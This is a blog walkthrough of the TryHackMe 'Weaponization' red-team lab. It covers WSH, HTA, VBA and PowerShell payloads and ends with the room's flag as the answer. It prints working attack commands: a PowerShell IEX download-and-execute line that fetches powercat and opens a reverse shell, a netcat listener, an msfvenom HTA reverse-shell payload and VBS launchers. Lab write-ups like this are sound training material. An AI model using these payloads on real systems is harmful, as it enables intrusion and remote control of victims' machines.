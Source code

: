 ```yaml
---
title: Weaponization   
author: CYB3RM3
name: CYB3RM3 | Weaponization  
date: 2021-12-26 21:50:07 +0100
categories: [TryHackMe, RedTeam]
tags: [Red Team]
---
```


Understand and explore common red teaming weaponization techniques. You will learn to build custom payloads using common methods seen in the industry to get initial access.

THM Room [https://tryhackme.com/room/weaponization](https://tryhackme.com/room/weaponization)


## TASK 1 : Introduction
### Let's deploy the target machine in the next task, and we'll get started with the Windows Script Host technique in the subsequent task ! 
No Answer

## TASK 2 : Deploy the Windows Machine 
### Deploy the attached Windows machine and connect to it via the RDP client. Once this is done, move to the next task. 
No Answer

## TASK 3 : Windows Scripting Host - WSH
### Try to replace the calc.exe binary to execute cmd.exe within the Windows machine. 
I tried two codes. Payloads.vbs to launch cmd.exe as user, payloads2.vbs for cmd administrator :

payloads.vbs
```console
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\cmd.exe " & WScript.ScriptFullName),0,True
```
{: .nolineno }

payloads2.vbs

```console
Set oShell = CreateObject("Shell.Application")
oShell.ShellExecute "cmd.exe", , , "runas", 1
```
{: .nolineno }

No Answer
## TASK 4 : An HTML Application - HTA 
### Now, apply what we discussed to receive a reverse connection using the user simulation machine in the Practice Arena task. 
Practiced and test different payload such as msfvenom command line directly or metasploit module. Get back multiple shell and offuscate link in shortcut on user's desktop and rename like "bank".

![Practice](/images/thm/weaponization/weaponization_1.png)
_Practice_

No Answer

## TASK 5 : Visual Basic for Application - VBA 
### Now replicate and apply what we discussed to get a reverse shell!

![HTA](/images/thm/weaponization/weaponization_2.png)
_HTA_

No Answer

## TASK 6 : PowerShell - PSH  
### Apply what you learned in this task. In the next task, we will discuss Command and Control frameworks! 

First, on attack machine :

```console
git clone https://github.com/besimorhino/powercat.git
cd powercat
python3 -m http.server 6666
```
{: .nolineno }

Then in another tab of terminal :

```console
nc -lnvp 1337
```
{: .nolineno }

On victim machine in cmd :

```console
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.188.37:6666/powercat.ps1');powercat -c 10.10.188.37 -p 1337 -e cmd"
```
{: .nolineno }

You'll now have a shell on your attack machine's listener !

![PSH](/images/thm/weaponization/weaponization_3.png)
_PSH_

No Answer

## TASK 7 : Command And Control - (C2 Or C&C) 
### Read the above. 
No Answer

## TASK 8 : Delivery Techniques
### Which method is used to distribute payloads to a victim at social events?
Answer : Web Delivery

## TASK 9 : Practice Arena 
###  What is the flag? 
Execute hta exploit for example :

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.188.37 LPORT=9933 -f hta-psh -o thm.hta
```
{: .nolineno }

Visiting url : http://10.10.188.37:666/thm.hta give us a reverse shell.

```console
type /Users/thm/Desktop/flag.txt
```
{: .nolineno }

Answer : THM{b4dbc2f16afdfe9579030a929b799719}